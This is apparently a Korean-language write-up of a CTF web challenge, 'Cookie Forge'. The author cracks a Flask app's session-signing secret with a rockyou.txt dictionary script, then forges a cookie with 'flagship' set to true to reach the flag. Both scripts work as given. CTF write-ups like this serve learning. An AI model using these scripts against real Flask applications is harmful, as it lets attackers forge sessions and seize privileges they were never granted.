



# Cookie Forge
**Web, 100pts**
> Help a new local cookie bakery startup shake down their new online ordering and loyalty rewards portal at https://cookie-forge.cha.hackpack.club!
>
> I wonder if they will sell you a Flask of milk to go with your cookies...

--------------------------------------------------------------------------------



메인 화면의 모습이다. Order Now 버튼을 누르면 로그인 화면으로 이동한다.



인증 과정이 없는 건지 아무 값이나 입력해도 로그인이 가능했다. 로그인 후에 Orders 탭과 Safety 탭을 확인해봤는데 의미 있는 내용은 없어 보였다. Flagship Loyalty 탭으로 들어가보면 메인 화면으로 리다이렉트 되면서 멤버가 아니라는 메시지가 출력되었다. 다만 해당 탭의 경로가 `/flag`라서 플래그를 획득할 수 있는 페이지라고 생각했다.

문제에서 쿠키라는 단서를 주고 있기 때문에 확인해보니 `session`이라는 쿠키가 있었다. 그런데 값이 [JWT](https://jwt.io/)처럼 생겨서 헤더 부분을 디코딩해보니 알고리즘 정보 대신 `flagship`과 `username`에 대한 정보만 있었다.

```
eyJmbGFnc2hpcCI6ZmFsc2UsInVzZXJuYW1lIjoidGVzdCJ9

{"flagship":false,"username":"test"}
```

일단 디코딩된 값 중에서 `flagship`이 False인 것으로 볼 때 이것을 True로 만들어야 플래그를 획득할 수 있을 것으로 보였다. 하지만 JWT가 아니었기 때문에 이것이 어떤 종류의 세션 값인지 알아야만 했다. 혹시나 하는 마음에 True로 인코딩한 값으로 쿠키 값을 수정해봤지만 해당 세션 쿠키가 삭제되는 것을 볼 수 있었다.

3일 정도 고민하고 검색해봤지만 전혀 감이 잡히지 않아서 포기하려고 했다. 다른 CTF에 참가하고 write-up을 보며 풀지 못했던 문제들을 공부하다가 Flask 관련 문제일 것 같다는 생각이 갑자기 들었다. 사실 문제 설명에 Flask에 대한 언급이 있어서 검색을 해봤지만 원하는 정보를 얻지 못하고 있었다. 다시 문제를 풀기 위해 검색을 해보니 **Flask Session Cookie Forge**에 대한 내용을 확인할 수 있었다.

> **References**
> - https://terryvogelsang.tech/MITRECTF2018-my-flask-app/
> - https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

Flask 세션은 `{Data}.{Timestamp}.{Hash}`의 구조를 가지고 있었다. 그리고 `Hash`를 생성할 때 `secret_key`가 사용된다. 이 값을 알아내기 위해 [포스트](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)를 참고하여 [스크립트](crack.py)를 작성하고 딕셔너리 공격을 시도했다. 단어 목록은 `rockyou.txt`를 사용했다.

```python
# crack.py
# Reference: https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadSignature
from hashlib import sha1

password = open('rockyou.txt', 'r', encoding='latin_1').read().split('\n')
print('Listing Success\n')

session = '[removed]'

for secret in password:
    try:
        signer = URLSafeTimedSerializer(
            secret_key = secret,
            salt = 'cookie-session',
            serializer = session_json_serializer,
            signer_kwargs = {'key_derivation': 'hmac', 'digest_method': sha1}
        ).loads(session)
    except BadSignature:
        continue

    print('Secret Key: {}'.format(secret))
    break
```

`secret_key`가 일치하면 오류가 발생하지 않기 때문에 해당 값을 확인할 수 있다. 스크립트를 실행하자마자 `secret_key`가 `password1`이라는 결과가 출력되었다. 다른 [포스트](https://terryvogelsang.tech/MITRECTF2018-my-flask-app/)에 나와 있는 `Verify` 스크립트를 이용하여 기존의 세션을 확인해보니 `secret_key`가 일치한다는 것을 알 수 있었다. 구한 키 값을 이용하여 새로운 세션 값을 만들기 위한 [스크립트](craft.py)도 작성하였다.

```python
# craft.py
# Reference: https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

from flask.sessions import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from hashlib import sha1

data = {'flagship': True, 'username': 'test'}
secret = 'password1'

session = URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs = {'key_derivation': 'hmac', 'digest_method': sha1}
    ).dumps(data)

print('Session: {}'.format(session))
```

그렇게 생성된 세션 값을 문제 페이지의 쿠키로 저장한 다음, Flagship Loyalty 탭으로 들어가보니 아래 사진과 같이 플래그를 획득할 수 있었다.



```
Flag: flag{0h_my_@ch1ng_p@ncre@5_th33$3_@r3_d3l1c10$0}
```